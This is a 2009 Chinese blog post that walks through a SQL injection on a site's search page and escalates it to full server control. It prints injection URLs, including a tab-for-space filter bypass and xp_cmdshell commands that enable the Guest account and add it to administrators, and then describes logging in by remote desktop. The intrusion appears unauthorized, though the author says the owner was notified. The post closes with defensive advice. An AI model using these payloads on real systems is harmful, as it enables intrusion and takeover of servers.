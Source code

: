 ```yaml
---
title: 典型的 SQL 注入过程
date: 2009-11-12
layout: post
categories:
    - 奇技淫巧

#type: draft
---
```


*此漏洞已帮其修复，并知会当事人*

 [SQL 注入](http://en.wikipedia.org/wiki/SQL_injection) 漏洞危害巨大，但 SQL 注入也经常的被发现，少不小心过滤不完全就有可能让整个应用陷入困境。

无意间发现某站点存在 SQL 注入漏洞，于是利用这个漏洞提权并获取服务器控制权。这个案例很典型，像是教科书式的典型入侵步骤，下面就以这个案例展示从 SQL 注入到获取目标服务器控制权限的全过程。


## 发现

![http://files.gracecode.com/2009_11_11/1257999312.gif](http://files.gracecode.com/2009_11_11/1257999312.gif)

访问某站点的搜索页面，发现输入单引号「'」就直接报错，这就说明这个页面存在 注入的可能。为了证实这点，首先闭合请求访问语句，然后对比返回结果的差异。

发现访问

    http://foo/rss.aspx?keyword=lucky

以及

    http://foo/rss.aspx?keyword=lucky'));--

都可以被执行，但是返回的结果不同。根据下面的错误信息，是注释掉了 ORDER BY 。


## 分析

根据上面的情况，能非常肯定的断定这个脚本存在很严重的 SQL 注入漏洞。下一步，尝试构建插入 SQL 语句

![http://files.gracecode.com/2009_11_11/1257999379.gif](http://files.gracecode.com/2009_11_11/1257999379.gif)

    http://foo/rss.aspx?keyword=lucky'));SELECT%20SERVERPROPERTY%20('edition');--

发现服务器的报错信息为 SQL 语句语法错误，SQL 构建不成功。几次尝试注入均不成功，于是休息下先把重点放到服务器本身

![http://files.gracecode.com/2009_11_11/1257999485.png](http://files.gracecode.com/2009_11_11/1257999485.png)

扫描目标主机开放的端口，发现目标主机的 3389 端口是开放的。用远程桌面访问这个端口，可以访问。万事俱备，看来思路还得回到如何利用这个 SQL 注入漏洞。

此时灵光一现，是不是服务器的脚本分割用户输入的空格（%20），然后组成 SQL 语句查询？那么将空格转换成 TAB（%09）试试看，重新发起请求

    http://foo/rss.aspx?keyword=lucky'));SELECT%09SERVERPROPERTY%09('edition');--

![http://files.gracecode.com/2009_11_11/1257999508.png](http://files.gracecode.com/2009_11_11/1257999508.png)

并没有报错，说明判断是正确的。接下来的事情就好办了，调用 SQL 外部命令将 Guest 用户解禁并加入管理组。


## 提权

解禁 Guest 用户

    http://foo/rss.aspx?keyword=lucky'));exec%09Master..xp_CMDShell%09'net%09user%09guest%09/active:yes';--

相当于服务器执行

    net user guest /active:yes

再将 Guest 加入到管理员组

    http://foo/rss.aspx?keyword=lucky'));exec%09Master.xp_CMDShell%09'net%09localgroup%09administrators%09guest%09/add';--

相当于服务器执行

    net localgroup administrators guest /add

![http://files.gracecode.com/2009_11_11/1257999460.gif](http://files.gracecode.com/2009_11_11/1257999460.gif)

上述请求顺利执行成功，然后打开目标主机的远程登录，输入用户名「guest」密码为空登录，结果顺利登录 （运气和相貌都很重要 :P）。

重新关上 Guest 帐户，并通知主机管理员，至此攻击结束。


## 后记

正如上文所描述的，SQL 漏洞危害非常的巨大，但我相信国内很多中小站点还普遍存在着这样的漏洞。这里有些个人的不完全建议

* 代码要对输入的参数做到充分的过滤，并尽可能得考虑极端情况
* 错误信息尽可能的少，否则无关的人看不懂而有心的人就会提起兴趣
* 不要以管理员的身份运行服务器进程
* 某些情况下， [net 命令](http://www.computerhope.com/nethlp.htm) 对于攻击者而言就是「微软牌」的木马
* 严格控制远程登录访问者的来源
* 如果可能的情况下，不是很推荐使用 Windows 作为服务器操作系统


`-- EOF --`
